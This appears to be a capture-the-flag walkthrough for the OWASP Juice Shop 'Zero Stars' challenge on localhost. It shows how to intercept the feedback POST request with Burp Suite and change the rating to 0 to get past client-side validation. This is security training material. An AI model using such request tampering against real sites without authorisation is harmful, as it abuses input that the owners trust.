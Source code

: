 # Zero Stars

***1 Star Challenge 2/28***

Give a devastating zero-star feedback to the store.

---

Start your 'burpsuite', go to **Proxy** Menu and click **Open browser**.
Now enter the url `localhost:3000/#/contact` to open the *Juice Shop* and navigate to `Customer Feedback`.
Create a new feedback.

*EXAMPLE:*
````
Authoer:    anonymous
Comment:    "This is a comment"
Rating:     3 Star
CAPTCHA:    9
````

Befor you *Submit* the from, activate 'Intercept on' in Burpsuite. 
Now you can see a *POST* request to `http://localhost:3000/api/Feedback/` in a list.
You can see every Information of this *Rquest*.

````json
{
  "captchaId": 4,
  "captcha": 9,
  "comment": "This is a comment (anonymous)",
  "rating": 3
}
````

Change "RATING" to `0`

````json
{
  "captchaId": 4,
  "captcha": 9,
  "comment": "This is a comment (anonymous)",
  "rating": 0 <--
}
````

Click `Forword` to send the new POST Request.


:::success Challenge completed!
You successfuly solved a challenge: Zero Stars (Give a devastating zero-star feedback to the store.)
:::